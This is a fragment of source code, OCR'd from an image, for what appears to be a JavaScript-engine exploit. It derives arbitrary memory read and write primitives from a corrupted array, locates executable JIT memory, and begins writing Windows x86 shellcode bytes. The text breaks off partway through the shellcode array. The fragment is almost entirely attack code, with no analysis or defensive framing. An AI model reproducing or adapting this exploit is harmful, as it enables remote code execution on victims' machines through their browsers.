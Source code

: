 ```bash
    } else
        log("[+] backing store idx: " + backing_store_idx +
            ", in " + (backing_store_in_hign_mem ? "high" : "low") + " place.");

    if (OptObj_idx == -1) {
        log("[-] Can not find Opt Obj !");
        return;
    } else
        log("[+] OptObj idx: " + OptObj_idx +
            ", in " + (OptObj_idx_in_hign_mem ? "high" : "low") + " place.");

    var backing_store = (backing_store_in_hign_mem ?
        f2u(big_arr[backing_store_idx])[1] :
        f2u(big_arr[backing_store_idx])[0]);
    log("[+] Origin backing store: " + hex(backing_store));

    var dataNearBS = (!backing_store_in_hign_mem ?
        f2u(big_arr[backing_store_idx])[1] :
        f2u(big_arr[backing_store_idx])[0]);

    function read(addr) {
        if (backing_store_in_hign_mem)
            big_arr[backing_store_idx] = u2f(addr, dataNearBS);
        else
            big_arr[backing_store_idx] = u2f(dataNearBS, addr);
        return data_view.getInt32(0, true);
    }

    function write(addr, msg) {
        if (backing_store_in_hign_mem)
            big_arr[backing_store_idx] = u2f(addr, dataNearBS);
        else
            big_arr[backing_store_idx] = u2f(dataNearBS, addr);
        data_view.setInt32(0, msg, true);
    }

    var OptJSFuncAddr = (OptObj_idx_in_hign_mem ?
        f2u(big_arr[OptObj_idx])[1] :
        f2u(big_arr[OptObj_idx])[0]) - 1;
    log("[+] OptJSFuncAddr: " + hex(OptJSFuncAddr));

    var OptJSFuncCodeAddr = read(OptJSFuncAddr + 0x18) - 1;
    log("[+] OptJSFuncCodeAddr: " + hex(OptJSFuncCodeAddr));

    var RWX_Mem_Addr = OptJSFuncCodeAddr + 0x40;
    log("[+] RWX Mem Addr: " + hex(RWX_Mem_Addr));

    var shellcode = new Uint8Array(
           [0x89, 0xe5, 0x83, 0xec, 0x20, 0x31, 0xdb, 0x64, 0x8b, 0x5b, 0x30, 0x8b, 0x5b, 0x0c, 0x8b, 0x5b,
            0x1c, 0x8b, 0x1b, 0x8b, 0x1b, 0x8b, 0x43, 0x08, 0x89, 0x45, 0xfc, 0x8b, 0x58, 0x3c, 0x01, 0xc3,
            0x8b, 0x5b, 0x78, 0x01, 0xc3, 0x8b, 0x7b, 0x20, 0x01, 0xc7, 0x89, 0x7d, 0xf8, 0x8b, 0x4b, 0x24,
            0x01, 0xc1, 0x89, 0x4d, 0xf4, 0x8b, 0x53, 0x1c, 0x01, 0xc2, 0x89, 0x55, 0xf0, 0x8b, 0x53, 0x14,
            0x89, 0x55, 0xec, 0xeb, 0x32, 0x31, 0xc0, 0x8b, 0x55, 0xec, 0x8b, 0x7d, 0xf8, 0x8b, 0x75, 0x18,
            0x31, 0xc9, 0xfc, 0x8b, 0x3c, 0x87, 0x03, 0x7d, 0xfc, 0x66, 0x83, 0xc1, 0x08, 0xf3, 0xa6, 0x74,
            0x05, 0x40, 0x39, 0xd0, 0x72, 0xe4, 0x8b, 0x4d, 0xf4, 0x8b, 0x55, 0xf0, 0x66, 0x8b, 0x04, 0x41,
```
